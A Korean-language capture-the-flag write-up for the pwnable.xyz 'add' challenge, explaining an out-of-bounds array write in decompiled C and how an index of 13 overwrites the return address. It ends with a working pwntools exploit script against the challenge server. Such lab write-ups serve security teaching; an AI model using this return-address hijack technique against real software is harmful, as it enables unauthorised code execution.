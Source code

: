 ```yaml
---
title: "[pwnable.xyz]add"
date: 2020-1-12
tags: [pwnable.xyz]
categories: [pwnable.xyz]
---
```


```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax
  __int64 v4; // [rsp+8h] [rbp-78h]
  __int64 v5; // [rsp+10h] [rbp-70h]
  __int64 v6; // [rsp+18h] [rbp-68h]
  __int64 v7[11]; // [rsp+20h] [rbp-60h]
  unsigned __int64 v8; // [rsp+78h] [rbp-8h]
 
  v8 = __readfsqword(0x28u);
  setup();
  while ( 1 )
  {
    v4 = 0LL;
    v5 = 0LL;
    v6 = 0LL;
    memset(v7, 0, 80uLL);
    printf("Input: ", argv, v7);
    if ( __isoc99_scanf("%ld %ld %ld", &v4, &v5, &v6) != 3 )
      break;
    v7[v6] = v4 + v5;
    argv = v7[v6];
    printf("Result: %ld", argv);
  }
  result = 0;
  __readfsqword(40u);
  return result;
}
```

v7에서 OOB가 일어난다. 

v7의 v6 인덱스에 v4+v5한 값을 넣어주는데 여기서 취약점이 터진다. 

v4+v5로 리턴할 위치 잡아주고 v6로 ret에 맞춰주면 된다. 

v7의 위치가 rbp-0x60이니까 v6의 인덱스 값을 rbp+0x8로 ret위치로 맞춰주면 된다.

근데 __int64니까 한 인덱스당 8바이트 크기만큼 가질것이다. 

0x68 / 8 = 13이니까 v6에는 13값을 넣고 v4 + v5를 win()주소로 바꿔주면 된다. (v4+v5는 %d로 입력받아서 10진수로 넣어주면 된다.

```
mov    rdx,QWORD PTR [rbp-0x70]
mov    QWORD PTR [rbp+rax*8-0x60],rd
```

Input : 1094795585(0x4141414141) 0 13 이렇게 넣고 rbp+rax*8-0x60 이후 리턴(rbp+8)의 위치를 보면 잘 들어간걸 알 수 있다.

![](https://user-images.githubusercontent.com/32904385/72206499-07641f00-34d2-11ea-9283-885e107b6bc0.png)

이제 리턴값도 맞췄겠다 리턴을 해주면 되는데 scanf에서 3이 아니면 break로 빠져나가는 걸 이용하면 된다.

```c
if ( __isoc99_scanf("%ld %ld %ld", &v4, &v5, &v6) != 3 ) break;
```

> exploit.py

```python
from pwn import *
 
e = ELF('./challenge')
p = remote('svc.pwnable.xyz',30002)
 
p.sendlineafter(': ',str(0x400822) + ' 0  13')
p.sendlineafter(': ','A')
p.interactive()
```

